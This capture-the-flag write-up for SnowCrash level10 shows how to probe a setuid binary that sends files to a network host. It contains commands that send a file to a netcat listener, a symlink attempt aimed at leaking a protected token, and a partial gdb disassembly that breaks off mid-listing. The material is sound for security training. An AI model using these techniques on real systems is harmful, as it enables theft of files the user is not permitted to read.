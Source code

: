 If we try passing more than one arguments to the executable, we get

```
level10@SnowCrash:~$ ./level10 /tmp/test test
Connecting to /tmp/test:6969 .. Unable to connect to host test
```

So we know that it expects an IP address as second argument, which should the one of our localhost.
We can look for it by running ifconfig and looking for the network interface selected when we set up the virtual machine's bridged network.

```
[snowcrash@docker] ~/level10/Ressources # ifconfig
(...)
wlp4s0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.115  netmask 255.255.255.0  broadcast 192.168.0.255
(...)
```

So we can try running the exectuable, with a test file that we own:

```
level10@SnowCrash:~$ echo "HELLO" > /tmp/test && ./level10 /tmp/test 192.168.0.115
Connecting to 192.168.0.115:6969 .. Connected!
Sending file .. wrote file!
```

And in the hanging docker container:

```
[snowcrash@docker] ~/level10/Ressources # nc 6969 -l
.*( )*.
HELLO
```

So we have successfully transfered a file that we own - now, we need to trick the program into sending a file that we don't own.

We can try, as in a previous level, to create a symlink:

```
level10@SnowCrash:~$ ln -s $(pwd)/token /tmp/token
level10@SnowCrash:~$ ./level10 /tmp/token 192.168.0.115
You don't have access to /tmp/token
```

We can run the gdb debugger to try to learn more:

```
level10@SnowCrash:~$ gdb -q
(gdb) file level10
Reading symbols from /home/user/level10/level10...done.
```

We can start by displaying the disassembly code of the main function:

```
(gdb) disas main
Dump of assembler code for function main:
   0x080486d4 <+0>:	push   %ebp
   0x080486d5 <+1>:	mov    %esp,%ebp
   0x080486d7 <+3>:	and    $0xfffffff0,%esp
   0x080486da <+6>:	sub    $0x1050,%esp
   0x080486e0 <+12>:	mov    0xc(%ebp),%eax
   0x080486e3 <+15>:	mov    %eax,0x1c(%esp)
   0x080486e7 <+19>:	mov    %gs:0x14,%eax
   0x080486ed <+25>:	mov    %eax,0x104c(%esp)
   0x080486f4 <+32>:	xor    %eax,%eax
   0x080486f6 <+34>:	cmpl   $0x2,0x8(%ebp)
   0x080486fa <+38>:	jg     0x804871f <main+75>
   0x080486fc <+40>:	mov    0x1c(%esp),%eax
   0x08048700 <+44>:	mov    (%eax),%edx
```